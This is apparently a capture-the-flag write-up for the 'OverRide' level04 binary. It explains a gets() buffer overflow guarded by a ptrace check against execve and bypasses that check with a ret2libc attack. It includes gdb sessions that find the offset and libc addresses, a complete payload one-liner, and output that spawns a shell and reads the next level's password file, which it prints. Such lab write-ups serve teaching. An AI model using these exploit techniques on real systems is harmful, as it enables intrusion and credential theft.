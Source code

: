 This time, the program displays "Give me some shellcode, k" and waits for user's input. When filling in a random string, the program displays "child is exiting..." and exits. 

Looking at the [source code](../source.c), we see that the program creates a child process using fork(). The user's input is registered using gets() in the child process (which, once again, is vulnerable to buffer overflow attacks). Meanwhile, the parent process checks what the child process is doing with the ptrace(PTRACE_PEEKUSER, ...) command: when a system call occurs in the child process, the kernel saves the original contents of the eax register, which contains the system call number. Here, the child process is killed if the system call number is 11 (= execve). This is a kind of protection to prevent us from exploiting the binary file with the execve() command.

We could approach this exercise in different ways, for example by writing shellcode that does not call execve() but rather system(). But we'll do something else, because we've never tried that before and it looks like fun: a ret2libc attack. It's basically the same as exploiting the return address of the vulnerable function contained in eip, except that instead of putting there the address a shellcode we wrote, we'll go and get the addresses (in this case, the address of system() and an address that points to "/bin/sh") somewhere else in the memory. I used [this article](https://bufferoverflows.net/ret2libc-exploitation-example/) as a guide.

As we have already done before, we use gdb to find the offset of eip which contains the return address of the function. Small particularity here, we use the `set follow-fork-mode child` command to follow the child process:

```
(gdb) set follow-fork-mode child
(gdb) r < <(python -c 'print "A" * 156 + "aaaa"')
Starting program: /home/users/level04/level04 < <(python -c 'print "A" * 156 + "aaaa"')
[New process 2334]
Give me some shellcode, k

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2334]
child is exiting...
0x61616161 in ?? ()
```

So we have an offset of 156 bytes. Now let's find the addresses of system() and exit(), as well as an address that contains "/bin/sh". Why exit() ? So that our call to system() is cleaner. Indeed, when calling system(), in addition to the parameter, we must pass it a return address. We could pass it anything and then the program would crash after the call to system(), but if we're going to do it, we might as well do it right.

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$1 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```

We can now build our payload: first, 156 bytes of padding to reach eip, followed by the address of system(), then the return address (so in our case, exit()), and finally, the parameter of the call to system(): the memory address containing "/bin/sh".

```
level04@OverRide:~$ (python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat) | ./level04 
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
We can now reach the next level with the command `su level05` and fill in the flag found as a password.